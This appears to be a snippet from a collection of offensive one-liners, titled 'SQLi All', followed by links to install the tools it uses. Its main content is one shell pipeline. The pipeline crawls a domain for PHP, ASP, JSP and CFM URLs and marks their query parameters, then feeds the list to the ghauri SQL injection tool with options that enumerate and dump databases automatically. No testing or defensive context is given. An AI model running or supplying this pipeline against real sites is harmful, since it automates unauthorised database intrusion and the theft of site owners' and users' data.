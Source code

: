 ### SQLi All
```
urlfinder -d "example.com" -all | grep -aE '\.(php|asp|aspx|jsp|cfm)' | qsreplace "SQLI" | grep -a "SQLI" | anew > sqli.txt;ghauri -m sqli.txt --random-agent --confirm --force-ssl --level=3 --dbs --dump --batch
```
<p>install <a href="https://github.com/projectdiscovery/urlfinder" target="_blank">urlfinder</a>, <a href="https://github.com/tomnomnom/qsreplace" target="_blank">qsreplace</a>, <a href="https://github.com/tomnomnom/anew" target="_blank">anew</a>, <a href="https://github.com/r0oth3x49/ghauri" target="_blank">ghauri</a></p>
